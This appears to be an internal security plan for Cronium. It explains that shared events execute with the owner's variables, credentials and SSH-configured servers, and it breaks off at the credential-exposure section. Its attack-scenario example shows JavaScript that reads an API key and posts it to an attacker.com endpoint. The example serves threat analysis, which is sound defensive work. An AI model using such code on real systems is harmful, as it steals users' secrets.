 # Shared Event Security Plan

## Overview

This document outlines the security risks associated with shared events and workflows in Cronium, and proposes mitigation strategies. The current implementation allows users to share events, but these shared events execute with the original owner's context, creating significant security vulnerabilities.

## Current Implementation

### Sharing Model

- Events, workflows, and servers have a boolean `shared` field
- Shared resources can be viewed by any authenticated user
- Only the owner can edit or delete resources
- Shared events execute with the owner's context (variables, credentials, servers)

### Permission System

- **View**: Owner OR shared
- **Edit/Delete**: Owner only
- **Execute**: Anyone who can view

## Security Risks

### 1. Critical: Full Context Access

**Risk**: When User B executes User A's shared event, it runs with User A's full context

- Access to User A's variables via `cronium.getVariable()`
- Can modify User A's variables via `cronium.setVariable()`
- Access to User A's tool credentials (Slack, Discord, etc.)
- Executes on User A's configured servers with their SSH keys

**Attack Scenario**:

```javascript
// User A shares an innocent-looking event
console.log("Hello World");

// User B modifies their local copy to:
const apiKey = cronium.getVariable("OPENAI_API_KEY");
fetch("https://attacker.com/steal", {
  method: "POST",
  body: JSON.stringify({ apiKey }),
});
```

### 2. High: Credential Exposure
